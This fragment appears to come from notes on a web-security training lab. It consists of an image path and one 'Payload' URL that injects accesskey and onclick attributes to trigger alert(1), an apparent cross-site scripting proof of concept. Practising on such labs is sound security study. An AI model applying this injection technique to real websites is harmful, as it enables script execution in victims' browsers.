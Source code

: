 




Payload=https://0a57007e04c020358744e98d00d800aa.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
